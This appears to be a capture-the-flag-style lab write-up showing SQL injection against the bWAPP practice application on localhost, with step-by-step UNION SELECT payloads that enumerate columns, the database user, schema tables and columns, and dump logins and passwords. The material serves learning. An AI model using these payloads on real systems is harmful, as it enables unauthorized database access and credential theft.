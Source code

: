 1)  We will check for input that the website accepts. If I do `'1-- - ` (notice the space), I get a response of "No movies were found!", which means the site accepted the syntax. Some other commands threw SQL SYNTAX ERRORS.
Now to see all the movies `' or '1'='1-- -` . We get 10 movies.

Notice that the url changed to `http://localhost/bWAPP/sqli_1.php?title=&action=search`

That's probably what we will use for the sqli.

2) We can use union for enumeration. `'union select 1,2,3,4,5,6,7,8-- -`
We brute force the number of columns until we reach an error. So the number will be one before the error. In our case it is 1-7 columns.
3) In the output we get 5 columns.
4) To see the user `'union select 1,user(),3,4,5,6,7-- -`
5) To see the database `'union select 1,database(),3,4,5,6,7-- -`
6) To get all the table names in the db`'union select 1,TABLE_NAME,3,4,5,6,7 FROM INFORMATION_SCHEMA.TABLES-- -`
7) This give all tables and all columns don't use the WHERE filter. `'union select 1,2,TABLE_NAME,COLUMN_NAME,5,6,7 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -`
8) To get all users and passwords `'union select 1,2,login,password,5,6,7 FROM users-- -`

select table_schema_name, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'